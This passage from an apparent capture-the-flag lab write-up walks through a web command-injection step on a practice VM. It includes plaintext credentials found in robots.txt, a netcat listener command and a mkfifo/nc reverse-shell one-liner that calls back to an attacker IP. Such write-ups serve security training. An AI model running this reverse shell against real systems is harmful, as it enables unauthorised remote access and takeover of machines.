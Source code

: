 ![image-20201109221632248](/assets/img/secarmy20/image-20201109221632248.png)

The credentials are stored at the *robots.txt* file in the following URL http://192.168.226.138/shellcmsdashboard/robots.txt 

```html
# Username: admin Password: qwerty
User-agent: *
Allow: /
```

Introducing the credentials appears a text saying "head over to /aabbzzee.php", accessing to that file appears a users searcher. 

It appears to be executing ***bash*** commands, because sending  "echo 'HOLA' " shows "HOLA" on the we web page, so we can create a reverse shell getting access to the virtual machine. In order to do that we need to write the following command in our virtual machine

```bash
kali@kali:$ rlwrap -nc -nlvp 4444
```

and sending this command through the web form (You need to change the IP address).

```bash
touch /tmp/f; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.226.136 4444 > /tmp/f
```

In the */var/www/html/shellcmsdashboard* folder there is a file named *readme9213.txt* owned by www-data but without read permission. However, changing its permissions  we can retrieve the password for user *siete*.
